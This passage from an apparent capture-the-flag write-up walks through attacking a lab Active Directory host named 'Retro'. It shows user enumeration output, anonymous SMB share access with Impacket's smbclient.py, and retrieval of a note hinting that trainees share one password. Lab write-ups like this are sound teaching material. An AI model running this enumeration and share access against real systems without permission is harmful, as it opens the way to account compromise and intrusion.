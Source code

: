 ```console
SMB         10.10.88.241    445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.10.88.241    445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.88.241    445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.88.241    445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.88.241    445    DC               1109: RETRO\tblack (SidTypeUser)
```

Narrowing this down to just the `SidTypeUser` objects, we get this list. We could remove the `krbtgt` user from this list because it's not a user that would be logging into anything. 

```console
Administrator
Guest
krbtgt
DC$
trainee
BANKING$
jburley
tblack
```

Now that we have a list of users, we can set that aside for a moment and check the shares to which we have anonymous access.  

```console
➜  retro smbclient.py -dc-ip $ip anonymous@$ip
Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

Password:
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Notes
SYSVOL
Trainees
```

Checking the `Trainees` share, we find a text file named `Important.txt` that we can grab. 

```console
# use Trainees
# ls
drw-rw-rw-          0  Sun Jul 23 17:16:11 2023 .
drw-rw-rw-          0  Wed Jul 26 04:54:14 2023 ..
-rw-rw-rw-        288  Sun Jul 23 17:16:11 2023 Important.txt
# get Important.txt
```

The `Important.txt` file includes a hint that all trainees are now lumped under one account with a common password. 

```console
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```

